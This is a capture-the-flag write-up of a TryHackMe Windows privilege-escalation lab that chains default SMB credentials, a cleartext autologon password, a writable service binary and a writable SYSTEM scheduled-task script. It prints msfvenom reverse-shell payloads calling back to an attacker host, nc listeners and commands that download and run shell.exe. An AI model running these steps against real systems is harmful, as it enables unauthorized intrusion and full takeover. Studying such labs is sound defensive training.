



## Overview

**Windows Jump** ([TryHackMe](https://tryhackme.com/room/windowsjump)) is a Windows-only privesc box. The story is a workstation called `PRIVESC` that got left on after some layoffs and never cleaned up. No web app, no CVE, no memory corruption. It's four misconfigurations stacked on top of each other, and each one gives you what you need for the next account.

The objective is the whole ladder:

`guest → thmuser → notadmin → svcadmin → SYSTEM`

Each hop is its own thing. Default creds in an open SMB share get you the first user. A cleartext autologon password in the registry gets you the second. A service you can overwrite gets you the third. And a scheduled task running as SYSTEM off a script anyone can write gets you the last one. None of it is clever, which is sort of the point of these boxes.



### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap`, `smbclient` |
| Initial access | RDP client, `runas` |
| Enumeration | `winPEAS`, `reg query`, `Get-CimInstance`, `whoami` |
| Payloads | `msfvenom`, `nc` |
| Privesc | Service binary swap, `GodPotato` (didn't work), scheduled-task hijack |

---

## Enumeration

### Port scan

Standard opening scan, everything turned on.

`sudo nmap -sS -sV -O -A 10.114.176.61`

```text
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: PRIVESC
|   NetBIOS_Computer_Name: PRIVESC
|   DNS_Computer_Name: privesc
|   Product_Version: 10.0.17763
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found

Host script results:
| smb2-security-mode:
|_    Message signing enabled but not required
```

Build `10.0.17763` puts this at Server 2019 / 1809. The RDP banner lists `PRIVESC` as the computer name and the "domain" both, so it's a standalone box, not domain-joined. That rules out any AD path up front and tells me this is going to be all local privesc.

| Port | Service | Why I care |
|------|---------|------------|
| 135 / 139 / 445 | RPC / SMB | Anonymous shares |
| 3389 | RDP | Interactive access once I have a password |
| 5985 | WinRM | Backup remote access if RDP is locked down |

Signing is enabled-but-not-required, which I noted out of reflex, but there's no second host to relay to so it doesn't matter here. SMB is the obvious first stop.

### SMB

`smbclient -L //10.114.176.61 -N`

```text
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
Public          Disk      Public file share
```

`ADMIN$`, `C$`, `IPC$` are the usual defaults and I can't read them anonymously. `Public` is the one that isn't standard, and a null session lists it fine.

`smbclient //10.114.176.61/Public -N`

```text
smb: \> ls
  welcome.txt                         A      177  Mon May 11 06:40:51 2026
smb: \> get welcome.txt
```

```text
Welcome to CORP-NET.

New employee default credentials
================================
Username : thmuser
Password : <THMUSER_PW>

Please change your password after first login.
```

An onboarding note with the new-hire default password, dropped in a share the whole world can read. It even says to change the password on first login, which of course nobody did. There's `guest → thmuser`.

---

## Initial Access — thmuser

`thmuser` is in `Remote Desktop Users`, so I just RDP'd in. Could have used WinRM but I wanted a desktop for the registry and service poking later on.



Flag's on the desktop.

```powershell
PS C:\Users\thmuser.PRIVESC> type C:\Users\thmuser\Desktop\flag1.txt
THM{...}
```

> **Flag 1** — `C:\Users\thmuser\Desktop\flag1.txt`
{: .prompt-info }

I also noticed `C:\flag4.txt` sitting right at the root of the drive while I was clicking around. Can't read it as `thmuser`, but nice to know that's where this ends up.



Before dragging any tooling over I ran the cheap stuff by hand.

```powershell
PS C:\Users\thmuser.PRIVESC> cmdkey /list
* NONE *

PS C:\Users\thmuser.PRIVESC> whoami /priv
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Empty Credential Manager, no useful privileges. Plain user. Local accounts:

```powershell
PS C:\Users\thmuser.PRIVESC> net users
Administrator   DefaultAccount   Guest
notadmin        svcadmin         thmuser
WDAGUtilityAccount
```

`notadmin` and `svcadmin` are the two names between me and `Administrator`, which matches the objective.

### Winlogon

First thing I check on a workstation is autologon. If it's set up, Windows keeps the password in cleartext in the registry.

```powershell
PS C:\Users\thmuser.PRIVESC> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

    DefaultUserName    REG_SZ    notadmin
    DefaultPassword    REG_SZ    <NOTADMIN_PW>
```

`notadmin`'s password, in the clear. Note that `notadmin` isn't in `Remote Desktop Users` or `Administrators`, so I can't RDP in as them even with the password:

```powershell
PS C:\Users\thmuser.PRIVESC> net user notadmin
...
Local Group Memberships      *Users
Global Group memberships     *None
```

Doesn't matter though. I've already got an interactive session, so I can just spawn something as `notadmin` locally.

---

## Privilege Escalation

### thmuser → notadmin

`runas`, type the password at the prompt.

```powershell
PS C:\Users\thmuser.PRIVESC> runas /user:notadmin powershell.exe

PS C:\Windows\system32> whoami
privesc\notadmin
```

Flag 2 on their desktop.

```powershell
PS C:\Users\notadmin\Desktop> type flag2.txt
THM{...}
```

> **Flag 2** — `C:\Users\notadmin\Desktop\flag2.txt`
{: .prompt-info }

### notadmin → svcadmin

`notadmin` is another nobody, no password lying around this time, so this one needs real enumeration. Pulled winPEAS over.

Attacker side:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASx64.exe
mv winPEASx64.exe wp.exe
python3 -m http.server 8081
```

Target side. Set `TERM` before running or the colour output comes out as garbage escape codes:

```powershell
PS C:\Users\notadmin.PRIVESC\Desktop> iwr -Uri http://<ATTACKER_IP>:8081/wp.exe -OutFile wp.exe
PS C:\Users\notadmin.PRIVESC\Desktop> $env:TERM = "xterm"
PS C:\Users\notadmin.PRIVESC\Desktop> ./wp.exe > res.txt
```

The account section shows `svcadmin` is just a `Users` member, nothing special:

```text
PRIVESC\svcadmin
    |->Groups: Users
    |->Password: CanChange-NotExpi-Req
```

So if `svcadmin` isn't privileged by itself, the way in is something it *runs*. Grepping the output for the name pointed at a service:

```powershell
PS ...> Select-String -Path .\res.txt -Pattern "svcadmin"
res.txt:604:    User Name : svcadmin
res.txt:2167:   Checking folder: c:\users\svcadmin

PS ...> Get-CimInstance Win32_Service |
>>   Where-Object { $_.StartName -like "*svcadmin*" } |
>>   Select-Object Name, StartName, PathName, State, StartMode

Name      : THMSvc
StartName : .\svcadmin
PathName  : C:\Windows\THMSVC\svc.exe
State     : Stopped
StartMode : Manual
```

`THMSvc` runs as `svcadmin`, binary at `C:\Windows\THMSVC\svc.exe`, currently stopped and manual-start. Two things had to be true for this to work: I need write access to that binary, and I need to be allowed to start the service. Turned out both were, though I'll admit I didn't stop to read the exact ACL on the folder — I just tried the swap and it went, so I didn't dig further. Replace the binary, start the service, SCM runs it as `svcadmin`.

msfvenom, and it has to be `exe-service` format, not plain `exe`. A regular exe won't answer the service control manager's start message and the SCM kills it after ~30s; the service wrapper handles that handshake.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4447 -f exe-service -o shell.exe
nc -lvp 4447
```

Copy the original off to the side first (I like being able to put the box back), then overwrite and start:

```powershell
PS C:\Windows\THMSVC> wget http://<ATTACKER_IP>:8081/shell.exe -O shell.exe
PS C:\Windows\THMSVC> cp svc.exe svc.bak.exe
PS C:\Windows\THMSVC> cp shell.exe svc.exe
PS C:\Windows\THMSVC> Start-Service THMSvc
```

```text
Connection received on 10.113.137.212 50532
C:\Windows\system32>whoami
privesc\svcadmin
```

Flag 3.

```text
C:\Windows\system32>type C:\Users\svcadmin\Desktop\flag3.txt
THM{...}
```

> **Flag 3** — `C:\Users\svcadmin\Desktop\flag3.txt`
{: .prompt-info }

> Overwriting a live service binary is destructive. Back up the original (the `svc.bak.exe` above) so you can put the service back, and don't do this to a production box without sign-off.
{: .prompt-warning }

### svcadmin → SYSTEM

This is the one that made me stop and think. My first instinct on a service account is a potato, so I checked the token before anything else:

```text
C:\Windows\system32>whoami /priv
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

No `SeImpersonatePrivilege`. That kills the potato family (GodPotato, Juicy, all of them) dead, because the whole trick is impersonating a token you've captured and that's exactly the privilege you need to do it. I ran GodPotato anyway to be sure, and it fell over right where you'd expect:

```text
PS C:\Users\svcadmin.PRIVESC\Desktop> ./godpotato.exe -cmd "cmd /c whoami"
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Identification
[*] Find System Token : False
[!] Cannot create process Win32Error:1314
```

`1314` is `ERROR_PRIVILEGE_NOT_HELD`. So the box doesn't want you taking the potato shortcut. Back to the winPEAS output, this time looking for somewhere I can write that runs as SYSTEM. This stood out:

```text
Folder: C:\windows\tasks
FolderPerms: Authenticated Users [Allow: WriteData/CreateFiles], svcadmin [Allow: WriteData/CreateFiles]
```

`C:\Windows\Tasks` has a `cleanup.bat` in it, and any authenticated user can drop files there:

```powershell
PS C:\Windows\Tasks> ls
-a----  5/11/2026   6:41 AM      41 cleanup.bat

PS C:\Windows\Tasks> Get-Acl cleanup.bat | Select-Object Owner
Owner
-----
BUILTIN\Administrators
```

Owned by Administrators, writable by me, and there's a scheduled task that runs it as SYSTEM. Before going that route I did try the tidier option of just pointing the service I already control at LocalSystem, but `svcadmin` can't reconfigure it:

```text
PS C:\Windows\Tasks> sc.exe config THMSvc obj= LocalSystem
[SC] OpenService FAILED 5:
Access is denied.
```

Fine, the bat it is. Second payload, plain `exe` this time since a batch file just runs it directly — no SCM involved. Drop it next to the script and overwrite the bat to call it:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4448 -f exe -o shell.exe
nc -lvnp 4448
```

```powershell
PS C:\Windows\Tasks> wget http://<ATTACKER_IP>:8081/shell.exe -O shell.exe
PS C:\Windows\Tasks> echo 'C:\Windows\Tasks\shell.exe' > cleanup.bat
PS C:\Windows\Tasks> type cleanup.bat
C:\Windows\Tasks\shell.exe
```

Then wait for the task to fire. When it did:

```text
Connection received on 10.113.137.212 51258
C:\Windows\system32>whoami
nt authority\system
```

And `flag4.txt` at the root of C: — the one I'd spotted way back as `thmuser` and couldn't touch — finally reads:

```text
C:\>type C:\flag4.txt
THM{...}
```

> **Flag 4** — `C:\flag4.txt`
{: .prompt-info }

---

## Conclusion

Four separate mistakes, chained. Each account handed over exactly what the next step needed.

1. **Anonymous SMB + default creds** — `Public` was world-readable and held the onboarding password nobody rotated.
2. **Cleartext autologon** — `notadmin`'s password was sitting in `HKLM\...\Winlogon\DefaultPassword` for a single `reg query`, then straight into `runas`.
3. **Weak service binary permissions** — `THMSvc` ran as `svcadmin` from a path `notadmin` could both write and start, so a binary swap was game over for that account.
4. **World-writable SYSTEM task** — `C:\Windows\Tasks\cleanup.bat` ran as SYSTEM but any authenticated user could overwrite it. Worth noting the intended route deliberately skips a potato, since `svcadmin` doesn't hold `SeImpersonatePrivilege`.
